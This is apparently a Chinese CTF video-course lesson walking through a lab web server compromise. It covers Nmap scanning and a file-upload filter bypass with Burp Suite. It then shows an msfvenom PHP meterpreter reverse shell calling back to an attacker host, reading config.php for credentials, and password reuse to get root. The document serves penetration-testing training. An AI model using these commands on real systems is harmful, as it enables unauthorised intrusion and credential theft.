# CTF夺旗全套视频教程：网络安全：P21：CTF综合测试(低难度)

在本节课中，我们将学习如何对一个存在安全漏洞的Web应用程序进行综合渗透测试。我们将从信息收集开始，逐步利用文件上传漏洞，获取Web Shell，并最终提升权限至root，从而完全控制目标服务器。

## 信息收集与目标探测

上一节我们介绍了课程目标，本节中我们来看看如何对目标进行初步的信息收集。在渗透测试开始时，首先需要了解目标系统开放了哪些服务。

我们可以使用Nmap工具来扫描目标IP地址，以发现开放端口和运行的服务版本。

以下是使用Nmap进行扫描的命令示例：

```bash
nmap -sV 192.168.253.13
```





除了扫描服务版本，我们还可以使用Nmap的“-A”参数进行更全面的扫描，获取操作系统、脚本扫描等更多信息。

以下是使用Nmap进行全面扫描的命令示例：

```bash
nmap -A -v -T4 192.168.253.13
```

通过扫描，我们可以确定目标服务器上运行着Web服务（如Apache），这是我们后续攻击的主要入口。



## 利用文件上传漏洞



在信息收集中，我们发现了目标网站的上传功能。上一节我们介绍了如何发现上传点，本节中我们来看看如何绕过上传限制。

测试发现，网站只允许上传图片文件（如.jpg），而直接上传.php文件会被阻止。因此，我们需要绕过这个上传过滤机制。

以下是绕过上传过滤的步骤：



1.  将恶意PHP文件重命名为.jpg格式，例如 `shell.jpg`。
2.  使用Burp Suite拦截上传请求。
3.  在Burp Suite中，将拦截到的数据包中的文件名从 `.jpg` 修改回 `.php`。
4.  将修改后的数据包转发给服务器。



通过这种方式，我们欺骗了服务器的前端验证，成功上传了一个PHP文件。我们可以在网站的 `uploads` 目录下找到上传的文件。

## 生成并上传Web Shell



仅仅上传一个空文件是不够的。上一节我们绕过了上传限制，本节中我们来看看如何生成一个能反弹Shell的恶意文件，并上传它。



我们需要生成一个Web Shell（PHP马），它能够连接回我们的攻击机，从而让我们获得一个反向Shell。

首先，在攻击机（Kali Linux）上使用Metasploit框架启动一个监听器，等待目标服务器连接回来。





以下是启动监听器的命令步骤：



```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
exploit
```



接着，生成一个包含反向Shell代码的PHP文件。

以下是生成PHP Web Shell的命令：

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
```

生成后，需要编辑 `shell.php` 文件，删除文件开头的注释标记（如 `/*`），确保代码能被正确执行。

然后，重复上一节的绕过步骤：
1.  将 `shell.php` 重命名为 `shell2.jpg`。
2.  使用Burp Suite拦截上传请求，将文件名改回 `shell2.php`。
3.  上传文件。

上传成功后，在浏览器中访问 `http://靶机IP/uploads/shell2.php` 以触发Web Shell。此时，在Metasploit的监听窗口会看到成功建立了会话（session），我们获得了目标服务器的初步访问权限。

## 权限提升与获取Flag

我们已经获得了Web Shell，但权限较低（通常是 `www-data` 用户）。上一节我们获得了初始访问权，本节中我们来看看如何提升到最高权限（root）。

首先，查看当前用户权限，并尝试寻找敏感信息。

以下是查看当前用户和寻找数据库配置的命令：

```bash
whoami
id
find / -name “config.php” 2>/dev/null
cat /var/www/html/config.php
```

在 `config.php` 文件中，我们发现了数据库的连接信息，包括用户名和密码。

尝试使用发现的密码进行权限提升。如果该密码是系统root用户的密码，我们可以直接切换用户。

以下是尝试提权的命令：

```bash
su - root
# 输入从config.php中发现的密码
```

如果提权成功，命令提示符会变成 `#`，表示我们拥有了root权限。

最后，在文件系统中搜索Flag文件，这是CTF比赛中的最终目标。

以下是寻找Flag文件的命令示例：

```bash
find / -name “*flag*” 2>/dev/null
cat /根目录/flag.txt
```

## 总结与要点回顾



本节课中我们一起学习了对一个Web靶场进行完整渗透测试的流程。

我们首先使用Nmap进行信息收集，发现了Web服务。然后，我们利用并绕过了不严格的文件上传过滤机制，成功上传了Web Shell。接着，我们通过Web Shell获得了反向连接，进入了目标系统。最后，通过挖掘到的数据库密码进行提权，成功获得了root权限并找到了flag。



通过本小节的讲解，我们需要明白以下两点核心要点：



1.  **熟练掌握工具与漏洞**：必须熟练掌握Nmap、Burp Suite、Metasploit等安全工具的使用，并理解SQL注入、文件上传绕过等常见漏洞的利用方式。
2.  **清晰的渗透测试思路**：渗透测试是一个逐步深入的过程，从信息收集开始，到漏洞利用、获取初始权限、内部探测，最终通过敏感信息（如密码复用）提升权限，达成目标（获取root权限或flag）。



在CTF比赛或实际安全测试中，务必明确最终目标，并系统地、有条理地执行每一步操作。